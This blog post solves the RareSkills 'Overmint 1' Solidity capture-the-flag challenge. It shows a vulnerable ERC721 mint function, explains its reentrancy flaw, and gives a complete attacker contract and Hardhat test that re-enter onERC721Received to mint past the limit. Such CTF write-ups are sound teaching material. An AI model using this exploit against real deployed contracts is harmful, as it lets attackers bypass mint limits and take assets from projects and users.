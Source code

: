 ```yaml
---
title: RareSkills Solidity Riddles - Overmint 1 - Solution
date: '2023-11-26'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the RareSkills Solidity Riddles - Overmint 1 CTF
---
```


# RareSkills Riddles - Overmint 1 - Solution

## Contract

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

contract Overmint1 is ERC721 {
    using Address for address;
    mapping(address => uint256) public amountMinted;
    uint256 public totalSupply;

    constructor() ERC721("Overmint1", "AT") {}

    function mint() external {
        require(amountMinted[msg.sender] <= 3, "max 3 NFTs");
        totalSupply++;
        _safeMint(msg.sender, totalSupply);
        amountMinted[msg.sender]++;
    }

    function success(address _attacker) external view returns (bool) {
        return balanceOf(_attacker) == 5;
    }
}
```

## Exploit

The goal of this challenge is to mint 5 tokens in a single transaction.

We can achieve this by performing a reentrancy attack, exploiting the fact that `mint` does not follow the checks-effects-interactions pattern since `_safeMint` calls `onERC721Received` on the receiving contract before updating `amountMinted`.

Here's an example of an attacker contract we can use:

_Overmint1Attacker.sol_

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;

import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import "./Overmint1.sol";

contract Overmint1Attacker is IERC721Receiver {
    Overmint1 public overmint1;

    constructor(address _overmint1Address) {
        overmint1 = Overmint1(_overmint1Address);
    }

    function attack() public {
        overmint1.mint();
        for (uint256 i = 1; i < 6; i++) {
            overmint1.transferFrom(address(this), msg.sender, i);
        }
    }

    // This function is called by the Overmint1 contract during _safeMint
    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data)
        external
        override
        returns (bytes4)
    {
        // Check the number of tokens minted, and if it's less than 5, mint again
        if (overmint1.balanceOf(address(this)) < 5) {
            overmint1.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

_Overmint1.js_

```javascript
const { time, loadFixture } = require('@nomicfoundation/hardhat-network-helpers')
const { anyValue } = require('@nomicfoundation/hardhat-chai-matchers/withArgs')
const { expect } = require('chai')
const { ethers } = require('hardhat')

const NAME = 'Overmint1'

describe(NAME, function () {
  async function setup() {
    const [owner, attackerWallet] = await ethers.getSigners()

    const VictimFactory = await ethers.getContractFactory(NAME)
    const victimContract = await VictimFactory.deploy()

    return { victimContract, attackerWallet }
  }

  describe('exploit', async function () {
    let victimContract, attackerWallet
    before(async function () {
      ;({ victimContract, attackerWallet } = await loadFixture(setup))
    })

    it('conduct your attack here', async function () {
      const AttackerFactory = await ethers.getContractFactory('Overmint1Attacker')
      const attackerContract = await AttackerFactory.connect(attackerWallet).deploy(
        victimContract.address
      )
      await attackerContract.connect(attackerWallet).attack()
    })

    after(async function () {
      expect(await victimContract.balanceOf(attackerWallet.address)).to.be.equal(5)
      expect(await ethers.provider.getTransactionCount(attackerWallet.address)).to.lessThan(
        3,
        'must exploit in two transactions or less'
      )
    })
  })
})
```
